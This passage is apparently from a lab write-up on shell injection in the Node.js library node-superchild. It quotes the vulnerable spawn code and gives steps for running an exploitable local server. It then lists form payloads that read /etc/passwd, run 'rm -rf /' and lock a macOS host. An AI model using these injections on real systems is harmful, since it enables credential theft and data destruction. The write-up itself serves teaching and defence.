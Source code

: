 ``` javascript
  // When the child exits send the HTTP response
  child.on('exit', function () {
    res.end()
  });
});
```

#### [`node-superchild/lib/respawn.js`](https://github.com/mayanklahiri/node-superchild/blob/6b707b308c12bcead025d9d30f73073cd1b296c2/lib/respawn.js#L35) 
While `superchild` uses the less vulnerable `spawn` interface it does so in a way that ultimately exposes a system shell. Specifically the library will silently set an internal shell option to true, which will cause it to use `spawn` to run the parameters in a shell. This attack also extends to the `execFile` function as well.

```Javascript
var spawn = require('child_process').spawn
  , spawnSync = require('child_process').spawnSync
;
...

exports.spawn = function(commandLine, spawnOpt) {
  ...

  if (!spawnOpt || !spawnOpt.shell) {
    return spawn(commandLine, spawnOpt);
  }
  ...

  var shellBin = IS_WINDOWS ? 'cmd.exe' : '/bin/sh';
  return spawn(shellBin, childArgs, spawnOpt);
};
```


### Running the exploit

#### Starting Server
After downloading the [source](https://github.uconn.edu/jrs12014/OSC-UConn/tree/master/WriteUps/ShellInjections/superchild) and installing the packages you can run the server simply by doing 

- `foo@bar:~$ cd /path/to/superchild/`
- `foo@bar:~$ node superchild_exploitable.js`

#### Payload procedure
- Go to `localhost:8080`
- Insert the payload via the form on the site (Ex. `; rm -rf /`)
  - `; cat /etc/passwd`
    - Command will read password folder to client.
  - `; rm -rf /`
    - Command will delete application directory and its contents.
  - `; /System/Library/CoreServices/Menu\ Extras/User.menu/Contents/Resources/CGSession -suspend`
    - If the server is running macOS, the command will lock the server.

